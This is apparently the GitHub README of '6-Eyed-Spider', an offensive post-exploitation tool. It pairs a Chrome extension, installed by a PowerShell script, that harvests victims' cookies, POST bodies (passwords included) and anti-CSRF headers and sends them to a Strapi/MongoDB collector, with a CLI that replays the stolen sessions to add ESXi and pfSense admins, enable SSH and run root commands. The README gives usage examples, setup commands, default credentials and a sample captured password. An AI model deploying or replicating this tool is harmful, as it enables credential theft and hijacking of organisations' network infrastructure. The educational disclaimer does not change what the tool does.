 # 6-Eyed-Spider - Under development 

### Abstract
This is a post-exploitation Red-Teaming tool. It gathers data going out and coming into the browser — data like POST requests, cookies, and chosen headers like (ANTI-CSRF headers), then sends all data to Strapi. Strapi and MongoDB store the data so that 6-Eyed-Spider-CLI can use the collected data to perform specific attacks. Attacks using the users' valid cookies to execute commands, create admin users, enable unsafe functionalities, manipulate data in systems like VMware, Pfsense, and PanOS. 

The tool takes advantage of how web applications usually are designed. No matter how many authentication steps a web application uses, there will be a weak point where if you know specific tokens, you will be able to interact with the application without the need for reauthenticating. The tool uses these specific tokens to perform critical tasks as authenticated users. It also deals with Anti-CSRF protection; thus, almost every request can be passed.

The tool consists of a couple of parts:
* Dockerized MongoDB and Strapi
  * MongoDB stores the collected data.
  * Strapi receives and manages the collected data.
* Google-Chrome Extention
  * Collects the browser's data from the blue team.
* 6-Eyed-Spider-CLI
  * Runs custom made plugins which make use of the collected data.

### Disclaimer
This Red-Team tool is used for educational purposes ONLY!

## Table of contents:
 * [Abstract](#abstract)
 * [Disclaimer](#disclaimer)
* [Table of contents:](#table-of-contents)
 * [How to:](#how-to)
    * [Use 6-Eyed-Spider-CLI:](#use-6-eyed-spider-cli)
    * [Install 6-Eyed-Spider:](#install-6-eyed-spider)
    * [Run the server manually:](#run-the-server-manually)
 * [Configure the admin panel and the API address from:](#configure-the-admin-panel-and-the-api-address-from)
    * [Then with administrator privileges:](#then-with-administrator-privileges)
    * [Clients:](#clients)
 * [6-Eyed-Spider-CLI Plugins:](#6-eyed-spider-cli-plugins)
 * [Dependencies](#dependencies)
 * [Todos](#todos)

### How to:

#### Use 6-Eyed-Spider-CLI:
```sh
Welcome! Type ? to list commands
6-Eyed-Spider> ?

Documented commands (type help <topic>):
========================================
Add_ESXI_Admin           Print_all_ESXis_under_control     exit
ESXI_Enable_SSH          Print_all_pfSenses_under_control  help
Execute_pfSense_Command  Print_creds                     

6-Eyed-Spider> help Add_ESXI_Admin
Add admin user.
Usage: Add_ESXI_Admin <ESXI_IP> <USERNAME> <STRONG_PASSWORD> <Description>
Add_ESXI_Admin 192.168.1.10 BLACK_TEAM Liverpool!1!1! Description1
Add_ESXI_Admin 192.168.1.10 ADMIN Liverpool!1998 Description2

6-Eyed-Spider> help Execute_pfSense_Command
Enable SSH.
Usage: Execute_pfSense_Command <pfSense_IP> <Command>
Execute_pfSense_Command 192.168.1.10 id
Execute_pfSense_Command 192.168.1.10 whoami

6-Eyed-Spider> Execute_pfSense_Command 192.168.1.254 whoami

root 

6-Eyed-Spider> Print_all_pfSenses_under_control

https://192.168.1.254/
https://192.168.2.254/
https://192.168.3.254/
https://192.168.4.254/

6-Eyed-Spider>
```

#### Install 6-Eyed-Spider:
```sh
[M507:~]$ bash Install.sh
```
#### Run the server manually:
```sh
[M507:~]$ # Start the database
[M507:~]$ docker-compose -f docker-compose-db.yml up --build -d
[M507:~]$ # Wait 20 seconds until its states changes to healthy 
[M507:~]$ watch docker-compose -f docker-compose-db.yml ps
[M507:~]$ # Insert db.dump into the database, using this command
[M507:~]$ docker exec -i strapi-docker_db_1 sh -c 'mongorestore --archive'< RedAdmin.dmup
[M507:~]$ # Start the Strapi
[M507:~]$ docker-compose -f docker-compose-main.yml up --build -d
```
Or run Run.sh, which executes the same commands above.
```sh
[M507:~]$ bash Run.sh
```
###  Configure the admin panel and the API address from:
```sh
[M507:~]$ cat ./strapi-app/config/environments/development/server.json
{
  "host": "localhost",
  "port": 1337,
  "proxy": {
   "enabled": false
  },
  "autoReload": {
    "enabled": true
  },
  "cron": {
    "enabled": false
  },
  "admin": {
    "autoOpen": false
  }
}
```

Info ☄️  Default Admin panel: http://localhost:1337/admin
Info ⚡️ Default Server: http://localhost:1337

#### Then with administrator privileges:
Default credentials: admin:RedAdmin
* Insert all the targeted domains into: http://127.0.0.1:1337/Domains
* Insert all the targeted headers into: http://127.0.0.1:1337/Headers
* http://127.0.0.1:1337/Posts receives data from the public without any privileges.
* /Posts receives: IP (String),ID (String), Site (String), and Data (Json), Type (String). Type: either "Cookie", "Header", or "Form".
An example:
```html
{
    "IP": "192.168.1.2",
    "ID": 31231,
    "Site": "https://aavtrain.com/index.asp",
    "Data": {
        "Submit": "Submit",
        "login": "true",
        "password": "MYPASSWORD",
        "user_name": "admin"
    },
    "Type": "Cookies"
}
```

#### Clients:
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2030 Microsoft Corporation. All rights reserved.

C:\Users\Mohad> .\New-ChromeExtension.ps1 (Powershell Payload attached). 
```


### 6-Eyed-Spider-CLI Plugins:
6-Eyed-Spider-CLI runs customized plugins that make use of the valid collected data from the API. 
+ VMware
    + Add an administrator
    + Start SSH
+ Pfsense
    + Add an administrator
    + Execute a command

### Dependencies
+ Docker-compose

### Todos

- Firefox extension configures itself based on the data in /domains and /headers.
- Firefox extension sends All POST requests and cookies to /Posts as described above.
- New-FirefoxExtension.ps1
